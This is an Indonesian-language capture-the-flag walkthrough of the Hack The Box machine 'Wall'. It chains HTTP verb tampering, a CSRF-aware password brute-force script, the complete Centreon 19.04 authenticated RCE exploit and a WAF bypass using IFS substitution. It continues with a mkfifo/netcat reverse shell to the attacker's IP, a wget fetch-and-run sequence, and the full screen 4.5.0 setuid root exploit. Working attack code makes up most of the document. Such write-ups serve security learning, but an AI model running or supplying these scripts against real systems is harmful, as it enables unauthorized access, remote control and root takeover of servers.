

# Wall [Linux]


Box Wall dengan operating system Linux, ini adalah box paling pertama yang saya berhasil solve !

## Enumeration

```
nmap -sC -sV 10.10.10.157
```


Lakukan dirbuster dengan wordlist medium


Terdapat directory yang menarik bernama monitoring dengan error code 401, yang berarti memerlukan authentication. Mari kita coba buka


Kita menemukan page yang di proteksi oleh basic http authentication, penulis mencoba melakukan bruteforce dengan username admin. Namun setengah jalan bruteforcing, menemukan cara yang lebih menarik untuk dilakukan. Penulis melakukan verb tampering, memanipulasi verb based access control untuk mencoba mendapatkan akses tanpa harus melakukan authentikasi HTTP.


Berhasil, kita bisa melihat hyperlink untuk redirection bisa dilihat di html pula, mari kita ikuti.

http://10.10.10.157/centreon


Sebuah login page Centreon, diberikan pula versi dari Centreon nya yaitu v 19.04.0

Penulis mencoba credentials basic seperti admin admin, admin password, root root, root toor, semuanya tidak berhasil. Penulis juga melakukan bruteforcing dengan menggunakan patator dengan username admin dan menggunakan wordlist rockyou namun gagal. Penulis kemudian mencari exploit yang mungkin bisa digunakan untuk melakukan bypass login page Centreon ini.

https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/

Ternyata ada tetapi seperti judulnya, exploit tersebut merupakan exploit RCE, sebelum itu mari kita lihat terlebih dahulu script yang diberikan penemu CVE nya.

```
#!/usr/bin/python
 
# Exploit Title: Centreon v19.04 authenticated Remote Code Execution
# Date: 28/06/2019
# Exploit Author: Askar (@mohammadaskar2)
# CVE : CVE-2018-20434
# Vendor Homepage: https://www.centreon.com/
# Software link: https://download.centreon.com
# Version: v19.04
# Tested on: CentOS 7.6 / PHP 5.4.16
 
import requests
import sys
import warnings
from bs4 import BeautifulSoup
 
# turn off BeautifulSoup warnings
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
 
if len(sys.argv) != 6:
    print(len(sys.argv))
    print("[~] Usage : ./centreon-exploit.py url username password ip port")
    exit()
 
url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
ip = sys.argv[4]
port = sys.argv[5]
 
 
request = requests.session()
print("[+] Retrieving CSRF token to submit the login form")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content)
token = soup.findAll('input')[3].get("value")
 
login_info = {
    "useralias": username,
    "password": password,
    "submitLogin": "Connect",
    "centreon_token": token
}
login_request = request.post(url+"/index.php", login_info)
print("[+] Login token is : {0}".format(token))
if "Your credentials are incorrect." not in login_request.text:
    print("[+] Logged In Sucssfully")
    print("[+] Retrieving Poller token")
 
    poller_configuration_page = url + "/main.get.php?p=60901"
    get_poller_token = request.get(poller_configuration_page)
    poller_html = get_poller_token.text
    poller_soup = BeautifulSoup(poller_html)
    poller_token = poller_soup.findAll('input')[24].get("value")
    print("[+] Poller token is : {0}".format(poller_token))
 
    payload_info = {
        "name": "Central",
        "ns_ip_address": "127.0.0.1",
        # this value should be 1 always
        "localhost[localhost]": "1",
        "is_default[is_default]": "0",
        "remote_id": "",
        "ssh_port": "22",
        "init_script": "centengine",
        # this value contains the payload , you can change it as you want
        "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
        "nagiostats_bin": "/usr/sbin/centenginestats",
        "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
        "centreonbroker_cfg_path": "/etc/centreon-broker",
        "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
        "centreonbroker_logs_path": "",
        "centreonconnector_path": "/usr/lib64/centreon-connector",
        "init_script_centreontrapd": "centreontrapd",
        "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
        "ns_activate[ns_activate]": "1",
        "submitC": "Save",
        "id": "1",
        "o": "c",
        "centreon_token": poller_token,
 
 
    }
 
    send_payload = request.post(poller_configuration_page, payload_info)
    print("[+] Injecting Done, triggering the payload")
    print("[+] Check your netcat listener !")
    generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
    xml_page_data = {
        "poller": "1",
        "debug": "true",
        "generate": "true",
    }
    request.post(generate_xml_page, xml_page_data)
 
else:
    print("[-] Wrong credentials")
    exit()
```

Ternyata bruteforce yang kita lakukan dari tadi gagal karena kita tidak menyertakan CSRF token saat proses submit nya. Penulis berencana mendaur ulang code diatas untuk dijadikan scipt bruteforcing login credentials. Penulis membuat script seperti berikut

```
#!/usr/bin/env python3
 
import requests
import warnings
from bs4 import BeautifulSoup
 
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
 
url = "http://10.10.10.157"
username = "admin"
 
loop = True
wordlist = "../../../Downloads/rockyou.txt"
 
with open(wordlist, encoding="latin-1") as password:
        password = password.readlines()
 
count = 0
for PASS in password:
	PASS = PASS.rstrip('\n')
 
	count+=1
 
	request = requests.session()
	page = request.get(url+"/centreon/index.php")
	html_content = page.text
	soup = BeautifulSoup(html_content)
	token = soup.findAll('input')[3].get("value")
 
	login_info = {
	    "useralias": username,
	    "password": PASS,
	    "submitLogin": "Connect",
	    "centreon_token": token
	}
 
	login_request = request.post(url+"/centreon/index.php", login_info)
	if "Your credentials are incorrect." not in login_request.text:
		print (PASS)
```

Kita mendapatkan credentialsnya !

admin:password1


```
isset($data["nagios_bin"]) && $data["nagios_bin"] != null
        ? $rq .= "nagios_bin = '" . htmlentities(trim($data["nagios_bin"]), ENT_QUOTES, "UTF-8") . "',  "
```

Filter data pada nagois_bin hanya dengan menggunakan htmlentities sehingga kita memungkinan melakukan RCE dan mendapatkan reverse shell. nagios_bin merupakan data yang diambil dari input yang ada di bawah kategori configuration, poller configuration, pada form yang bernama Monitoring Engine Binary, penulis pertama mencoba melakukan command seperti

Echo asdasdasd # untuk mengikuti contoh di pada blog CVE tersebut


Nampaknya kali ini aplikasi Centreon dilengkapi oleh WAF sehingga terdapat beberapa char yang di blacklist. Setelah percobaan beberapa kali, ternyata character yang di blacklist berupa (spasi) dan pagar. Sedangkan pada blog CVE dikatakan bahwa kita memerlukan pagar untuk comment out sisa dari syntax nya dan tanpa spasi akan sangat menyulitkan penulis untuk melakukan RCE.

Penulis sempat stuck untuk waktu yang lama karena mencoba banyak metode yang berujung kegagalan hehe. Setelah berapa lama penulis menemukan kata kunci untuk dicari di google yaitu Internal Field Separator atau (IFS). Kita bisa mengubah cara shell membaca syntax atau token yang tadinya dipisah oleh spasi menjadi character apapun yang kita inginkan sehingga command yang biasanya seperti

echo permenmilkita

dapat ditulis menjadi

IFS=.;haha=echo.permenmilkita;$IFS

Mari kita coba jalankan di script yang sudah kita modifikasi sesuai credentials yang sudah kita dapatkan tadi, poller ID, poller name, dan option lainnya. Kita akan memainkan paramter nagios_bin untuk melakukan RCE. Perlu diperhatikan bahwa script yang disediakan penemu CVE tidak dapat digunakan mentah mentah. Terlebih lagi saat pengerjaan box ini, penulis menemukan banyak orang iseng yang mengganti poller ID milik peserta lain sehingga mengacaukan progress yang sudah dikerjakan dan menimbulkan error yang tidak seharusnya terjadi.

```
#!/usr/bin/env python3
import requests
import sys
import warnings
from bs4 import BeautifulSoup
 
# turn off BeautifulSoup warnings
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
 
 
url = "http://10.10.10.157/centreon"
username = "admin"
password = "password1"
ip = "10.10.14.71"
port = "1234"
 
 
request = requests.session()
print("[+] Retrieving CSRF token to submit the login form")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content)
token = soup.findAll('input')[3].get("value")
 
login_info = {
    "useralias": username,
    "password": password,
    "submitLogin": "Connect",
    "centreon_token": token
}
login_request = request.post(url+"/index.php", login_info)
print("[+] Login token is : {0}".format(token))
if "Your credentials are incorrect." not in login_request.text:
    print("[+] Logged In Sucssfully")
    print("[+] Retrieving Poller token")
 
    poller_configuration_page = url + "/main.get.php?p=60901"
    get_poller_token = request.get(poller_configuration_page)
    poller_html = get_poller_token.text
    poller_soup = BeautifulSoup(poller_html)
    poller_token = poller_soup.findAll('input')[24].get("value")
    print("[+] Poller token is : {0}".format(poller_token))
 
    payload_info = {
        "name": "Central",
        "ns_ip_address": "127.0.0.1",
        # this value should be 1 always
        "localhost[localhost]": "1",
        "is_default[is_default]": "0",
        "remote_id": "",
        "ssh_port": "22",
        "init_script": "centengine",
        # this value contains the payload , you can change it as you want
        "nagios_bin": "IFS=.;haha=echo.permenmilkita;$haha",
        "nagiostats_bin": "/usr/sbin/centenginestats",
        "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
        "centreonbroker_cfg_path": "/etc/centreon-broker",
        "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
        "centreonbroker_logs_path": "",
        "centreonconnector_path": "/usr/lib64/centreon-connector",
        "init_script_centreontrapd": "centreontrapd",
        "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
        "ns_activate[ns_activate]": "1",
        "submitC": "Save",
        "id": "1",
        "o": "c",
        "centreon_token": poller_token,
 
 
    }
 
    send_payload = request.post(poller_configuration_page, payload_info)
    print("[+] Injecting Done, triggering the payload")
    print("[+] Check your netcat listener !")
    generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
    xml_page_data = {
        "poller": "1",
        "debug": "true",
        "generate": "true",
    }
    a= request.post(generate_xml_page, xml_page_data)
    print(a.text)
 
else:
    print("[-] Wrong credentials")
    exit()
```



Kita berhasil melakukan echo namun terlihat ada parameter sisa yang seharusnya dibuang oleh tanda pagar tadi yang ikut ter echo yaitu -v, ini mungkin menyusahkan kedepannya.

Mari kita menyiapkan script bernama "new" untuk reverse shell pada port 1234

```
rm /tmp/s; mkfifo /tmp/s; cat /tmp/s | sh -i 2>&1 | nc 10.10.14.125 1234 > /tmp/s
```

Membuka simplehttpserver menggunakan python pada port 8000

python -m SimpleHTTPServer 8000

Kita akan melakukan RCE di Centreon untuk menyuruhnya mendownload file reverse shell kita dan menjalankannya

```
"nagios_bin": "IFS=_;asd=wget_http://10.10.14.125:8000/new;$asd",
```

```
IFS=_;asd=chmod_+x_new;$asd
```

```
IFS=_;asd=./new;$asd
```


Mari kita menggunakan sebuah script open source bernama LinEnum.sh untuk melakukan enumerasi otomatis terhadap box ini. LinEnum.sh berfungsi sebagai tools untuk kita menjalankan enumerasi secara lengkap di local linux tersebut dengan tujuan mencari task atau process yang dapat digunakan untuk melakukan privelege escalation.

Kita akan mengambilnya dari mesin lokal kita, jadi menggunakan step yang sama seperti diatas, namun bisa langsung dilakukan lebih mudah karena kita sudah memiliki interactive shell. Setelah result dari LinEnum sudah di save, penulis mengambil resultnya ke mesin lokal milik penulis untuk diteliti lebih lanjut, karena ditakutkan saat pengerjaan terjadi machine reset dan data LinEnum hilang, lagipula lebih mudah mengecek hasil LinEnum di mesin sendiri haha.

Kita akan mengecek hal hal yang paling obvious terlebih dahulu, seperti processes non generic yang berjalan, scheduled jobs, dan program dengan setuid. Saat pengerjaan penulis mengalami kesulitan karena di bagian processes banyak sekali shell yang di input oleh peserta lain dan terdaftar disana sehingga membuat penulis sempat kebingunan.

Dilihat di bagian SUID files

```
[00;31m[-] SUID files:[00m
-rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
-rwsr-xr-x 1 root root 64424 Mar 10  2017 /bin/ping
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 26696 Oct 15  2018 /bin/umount
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 18448 Mar 10  2017 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 149080 Jan 18  2018 /usr/bin/sudo
-rwsr-xr-- 1 root messagebus 42992 Jun 10 21:05 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-r-sr-xr-x 1 root root 13628 Aug 28 14:41 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Aug 28 14:41 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

Dikarenakan penulis belum terlalu familiar dengan beberapa dari files yang ada di sini, maka penulis mencari 1 per 1 referensi atas files yang ada, dengan keyword di google (Nama File) exploit / zero day / priv escal. Ternyata terdapat 1 celah yang dapat kita manfaatkan

```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```

[https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154)

Script untuk privilege escalation

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```


# Rooted !